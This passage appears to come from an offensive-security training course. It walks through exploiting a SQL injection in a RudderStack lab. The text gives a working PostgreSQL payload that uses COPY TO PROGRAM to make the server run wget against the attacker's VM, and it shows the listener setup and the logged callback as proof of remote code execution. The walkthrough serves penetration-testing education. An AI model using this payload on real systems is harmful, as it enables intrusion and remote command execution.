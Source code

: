 ![Figure 17: Repeater with 200 OK response](https://static.offsec.com/offsec-courses/WEB-300/images/rudderstack/f51aeb0de895abe0192707864ecd37dd-rudder_burp_10.png)

Figure 17: Repeater with 200 OK response

The application responded with _HTTP 200 OK_. Since there wasn't an error in the response, we can assume that the database executed our second query.

Now that we've confirmed the SQL injection vulnerability, we need to decide how to use it. Let's take a moment to consider PostgreSQL's [**COPY**](https://www.postgresql.org/docs/current/sql-copy.html) command. It can copy data to or from a local file if the database user has the _pg_read_server_files_ or _pg_write_server_files_ roles. While reading or writing files won't help us in this situation, it can be very useful if the web application and database share a server.

The **COPY** command can also copy data to or from a program or command if the database user has the _pg_execute_server_program_ role. If the exploited database user has this permission, we have many options available for remote code execution. In a black box assessment, we may need to use trial and error to determine which permissions the database user has. Verbose error messages may also disclose when an injection payload fails due to a lack of permissions.

Let's try using **COPY** to call **wget** and send a request back to our VM. First, we'll set up an HTTP server with Python to handle the request.

```
kali@kali:~$ python3 -m http.server 9000
Serving HTTP on 0.0.0.0 port 9000 (http://0.0.0.0:9000/) ...
```

> Listing 14 - Starting an HTTP server with Python

Next, we'll update the _source_id_ in Repeater to **'; copy (select 'a') to program 'wget -q http://192.168.48.2:9000/it_worked' -- -** and then _Send_ the request.

![Figure 18: Repeater with 500 Internal Error Response](https://static.offsec.com/offsec-courses/WEB-300/images/rudderstack/0acf6dfcc1961525fc5f545cd52e9c6b-rudder_burp_11.png)

Figure 18: Repeater with 500 Internal Error Response

The application responded with an error, indicating that wget failed. However, if we check our HTTP server, the server did send a request.

```
kali@kali:~$ python3 -m http.server 9000
Serving HTTP on 0.0.0.0 port 9000 (http://0.0.0.0:9000/) ...
192.168.120.144 - - [29/Feb/2024 15:26:01] code 404, message File not found
192.168.120.144 - - [29/Feb/2024 15:26:01] "GET /it_worked HTTP/1.1" 404 -
```

> Listing 15 - Request from vulnerable server

Excellent. We were able to use the SQL injection vulnerability to run a command on the server. From here, we should be able to get a reverse shell on the server.

For more ways to exploit SQL injection with PostgreSQL, refer to the [_ManageEngine Applications Manager AMUserResourcesSyncServlet SQL Injection RCE_](https://portal.offsec.com/library/learning-modules/manageengine-applications-manager-amuserresourcessyncservlet-sql-injection-rce-10582) Learning Module.

## Resources
